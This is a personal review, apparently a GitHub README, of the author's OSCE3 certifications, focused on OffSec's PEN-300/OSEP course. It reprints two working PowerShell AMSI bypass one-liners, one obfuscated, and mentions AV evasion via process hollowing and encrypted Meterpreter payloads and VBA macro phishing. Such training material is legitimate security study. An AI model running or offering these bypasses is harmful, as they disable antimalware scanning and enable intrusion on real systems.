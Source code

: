 Thank you to everyone from GuidePoint Security who made this possible and believed in me, and my peers and instructors from Fullstack Academy, who have always been supportive. I won't let the momentum I have built thus far go to waste — I have already moved on to my next goals.

I would also like to thank all of the despicable individuals and companies who have rejected me, ignored me, doubted me, and mistreated me. Throughout my life, many negative forces and circumstances have provided me with a consistent source of motivation since I was 9 years old. Nobody will ever understand the personal struggles I face every day that fuel my unmatched drive and ambition. This is only the beginning!

---

I will now provide quick summaries of my experiences with each of the three certs and corresponding courses that make up the OSCE3 certification. All of them were taken alongside my Learn Unlimited subscription.

## PEN-300: EVASION TECHNIQUES AND BREACHING DEFENSES (OSEP)

![OSEP](https://user-images.githubusercontent.com/85040841/235326344-ba19b14f-b3e9-4e86-a9f1-f0f69b4d833f.png)

The first cert I conquered for OSCE3 was the OSEP, which corresponds to OffSec's PEN-300 course. Out of the three certs that make up OSCE3, this one was the easiest for me when it comes to completing the material, as I was already quite well-versed in network pentesting, Active Directory (AD), lateral movement, and privilege escalation before starting as it is closely related to my current area of work.

### COURSE TAKEAWAY

The most interesting part of this course was the focus on evasion techniques. Easily bypassing application whitelisting and anti-virus (AV) software, e.g. Windows Defender, was not something I had been exposed to during my extensive studying on HTB Academy, TryHackMe, and even PEN-200. Therefore, learning about process hollowing and injection in C# and how to create Meterpreter payloads that utilized either of them alongside XOR encryption and sleep timers in order to bypass AV was a fun topic to learn about. While going through the course, I also came across two AMSI bypass one-liners that seemingly have a guaranteed success rate:

```ruby
# AMSI-Bypass #1:
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# AMSI-Bypass #2:
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Additionally, learning about client-side attacks and phishing via VBA macros was interesting. The chapters within PEN-300 seemed scattered, but they were packed with valuable info. For instance, after learning about post-exploitation you dive right into kiosk breakouts, and sooner than later, you start learning about DevOps exploitation, i.e. misconfigured Ansible and Artifactory instances. There isn’t any sense of flow tied to the course, but the chapters are packed with solid info.
